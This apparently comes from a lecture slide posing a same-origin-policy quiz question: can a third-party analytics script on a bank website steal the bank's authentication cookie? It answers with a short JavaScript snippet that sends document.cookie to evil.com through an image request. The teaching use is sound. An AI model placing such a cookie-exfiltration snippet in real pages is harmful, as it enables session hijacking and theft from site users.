

# SOP Quiz #2

Your bank website includes a script from GoogleAnalytics.com
Can Google steal your bank authentication cookie?
const img = document.createElement("image");
img.src = "https://evil.com/?cookies=" + document.cookie;
document.body.appendChild(img);